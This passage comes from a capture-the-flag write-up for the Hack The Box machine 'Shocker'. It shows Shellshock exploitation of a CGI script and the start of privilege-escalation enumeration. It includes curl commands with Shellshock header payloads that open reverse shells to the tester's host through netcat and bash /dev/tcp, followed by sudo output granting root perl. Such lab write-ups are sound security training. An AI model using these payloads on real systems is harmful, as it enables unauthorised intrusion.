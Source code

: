 It works! We've enumerated the users on the box, and can now attempt to get a shell. We're safe to cancel the rest of the gobuster scan, too (we've really hammered this box).

### Getting a Shell

I tried the command from the OWASP talk first:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ curl -H "X-Frame-Options: () {:;};echo;/bin/nc -e /bin/bash 10.10.16.211 9001" http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 05:35:55 up  2:09,  0 users,  load average: 0.00, 0.00, 0.00
```

This didn't work - so I tried my usual bash reverse shell, instead using the User Agent header (as suggested in the [shahjerry post](https://shahjerry33.medium.com/shellshock-high-voltage-a6bd2ce69659)):

```bash
┌──(mac㉿kali)-[~/Documents/HTB/shocker]
└─$ curl -H "User-Agent: () { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.211/9001 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

The command hung, and in my netcat listener... I had a shell!

![](/assets/images/blogs/Pasted image 20210614103350.png)

# Shell as Shelly

We can now grab the user flag:

![](/assets/images/blogs/Pasted image 20210614103814.png)

## Basic Enumeration

We have a lot of groups:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ id
id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

The `adm` group stands out, as it usually means we can read `/var/log`.

However, a simpler misconfiguration was present:

```bash
shelly@Shocker:/home/shelly$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
